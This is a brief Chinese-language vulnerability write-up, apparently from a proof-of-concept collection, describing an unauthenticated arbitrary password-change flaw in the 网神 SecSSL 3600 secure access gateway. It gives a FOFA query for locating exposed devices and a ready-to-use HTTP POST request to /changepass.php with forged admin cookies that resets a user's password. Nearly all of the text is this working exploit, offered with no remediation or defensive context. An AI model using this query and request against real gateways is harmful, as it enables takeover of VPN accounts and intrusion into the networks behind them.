 ## 某神SecSSL3600安全接入网关系统任意密码修改漏洞

网神 SecSSL 3600安全接入网关系统 存在未授权访问漏洞，攻击者通过漏洞可以获取用户列表，并修改用户账号密码

## fofa

```
app="安全接入网关SecSSLVPN"
```

## poc

```yaml
POST /changepass.php?type=2 HTTP/1.1
host:
Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}

old_pass=&password=Test123!@&repassword=Test123!@
```

![image-20240714234418619](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407142344689.png)
